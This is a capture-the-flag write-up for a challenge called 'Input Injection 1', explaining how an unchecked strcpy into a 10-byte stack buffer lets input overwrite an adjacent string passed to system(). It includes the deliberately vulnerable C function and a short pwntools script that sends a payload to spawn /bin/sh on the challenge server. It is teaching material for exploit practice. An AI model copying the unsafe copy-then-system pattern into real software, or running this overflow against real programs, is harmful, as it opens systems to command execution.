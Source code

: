 # *Input Injection 1*

**Challenge summary :**
A small C program reads your `name` into a 200-byte buffer, then calls `fun(name, "uname")`. Inside `fun` the code unsafely copies two strings into adjacent 10-byte local arrays `c[10]` and `buffer[10]`. By overflowing `buffer` you can overwrite `c` with the string `"/bin/sh\0"`. When `system(c)` runs, it spawns a shell — use that shell to read the flag.

---

## Vulnerable code (relevant parts)

```c
void fun(char *name, char *cmd) {
    char c[10];
    char buffer[10];

    strcpy(c, cmd);        // copies "uname" into c
    strcpy(buffer, name);  // vulnerable: no bounds checks

    printf("Goodbye, %s!\n", buffer);
    fflush(stdout);
    system(c);             // calls system(c)
}
```

### Why this is exploitable

* `strcpy(buffer, name)` has **no bounds checks**. `buffer` is only 10 bytes.
* `c` sits adjacent to `buffer` on the stack. If `name` is longer than 10 bytes, overflow bytes will overwrite `c`.
* If you craft `name` so that the overflowed bytes overwrite `c` with the C string `/bin/sh\0`, then `system(c)` executes `/bin/sh` and you get a shell controlled by your input.

---

## Exploit idea

1. Send a name string where the first 10 bytes fill `buffer` (junk), followed immediately by the bytes for `"/bin/sh\x00"` which will land in `c`.
2. After `system(c)` runs, interact with the spawned shell and read the flag (usually via `ls` and `cat flag` or `cat /flag` depending on CTF).

---

## Minimal pwntools exploit

Save as `exploit.py`:

```py
from pwn import *

# Use process('./vuln') for local testing; here we show remote usage:
# p = process('./vuln')
p = remote('saffron-estate.picoctf.net', 65057)

# buffer is 10 bytes, c is 10 bytes.
payload = b'A' * 10 + b'/bin/sh\x00'   # fill buffer then overwrite c with "/bin/sh\0"

p.sendline(payload)   # fgets will read the name
p.interactive()       # interact with the shell
```

Run:

```bash
python3 exploit.py
```

Once you get a shell prompt, search for and read the flag. Typical useful commands:

![result](./img/result.png)

---

